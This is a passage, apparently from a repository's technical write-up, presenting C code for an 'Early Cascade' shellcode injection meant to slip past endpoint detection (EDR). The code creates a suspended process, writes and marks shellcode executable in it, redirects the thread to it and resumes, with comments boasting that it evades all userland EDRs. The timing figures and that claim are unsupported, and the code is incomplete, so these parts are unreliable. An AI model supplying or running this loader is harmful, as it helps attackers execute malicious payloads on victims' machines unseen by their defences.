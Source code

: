 **Detailed Workflow**:
```c
BOOL EarlyCascade_Execute(PCASCADE_CONTEXT pContext) {
    // Step 1: Create process in SUSPENDED state (before EDR)
    STARTUPINFO si = {sizeof(si)};
    PROCESS_INFORMATION pi = {0};

    CreateProcessW(pContext->config.wzTargetPath, NULL, NULL, NULL, FALSE,
                  CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, &si, &pi);

    pContext->hProcess = pi.hProcess;
    pContext->hThread = pi.hThread;

    // Step 2: Allocate and write shellcode (process not initialized yet)
    pContext->pRemoteShellcode = NULL;
    NtAllocateVirtualMemory(pContext->hProcess, &pContext->pRemoteShellcode,
                           0, &szRegionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    NtWriteVirtualMemory(pContext->hProcess, pContext->pRemoteShellcode,
                        pContext->config.pShellcode, pContext->config.szShellcodeSize,
                        &szBytesWritten);

    VirtualProtectEx(pContext->hProcess, pContext->pRemoteShellcode,
                    pContext->config.szShellcodeSize, PAGE_EXECUTE_READ, &dwOldProtect);

    // Step 3: Modify thread entry point to shellcode
    CONTEXT threadContext = {0};
    threadContext.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pContext->hThread, &threadContext);

    #ifdef _WIN64
    threadContext.Rcx = (DWORD64)pContext->pRemoteShellcode; // Entry point
    #else
    threadContext.Eax = (DWORD)pContext->pRemoteShellcode;
    #endif

    SetThreadContext(pContext->hThread, &threadContext);

    // Step 4: Resume thread (shellcode runs BEFORE EDR hooks load)
    ResumeThread(pContext->hThread);

    // Timeline:
    // - Shellcode executes immediately (t=0ms)
    // - LdrInitializeThunk loads DLLs (t=10-50ms)
    // - EDR DLL injected and hooks established (t=50-100ms)
    // - By t=100ms, shellcode already completed execution

    return TRUE;
}
```

**Why This Evades ALL Userland EDRs**:
